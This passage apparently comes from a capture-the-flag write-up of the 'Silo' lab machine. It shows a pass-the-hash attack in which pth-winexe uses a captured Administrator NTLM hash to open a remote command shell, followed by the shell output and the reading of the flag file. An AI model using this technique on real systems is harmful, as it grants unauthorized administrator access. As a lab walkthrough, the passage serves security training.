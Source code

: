 ```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.82 cmd
```

Once we hit send, we get a `root` shell


```
┌──(root㉿kali)-[/opt/volatility_2.6_lin64_standalone]
└─# pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.82 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
silo\administrator
```
```

And I was able to grab the `root` flag

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
[REDACTED]
```

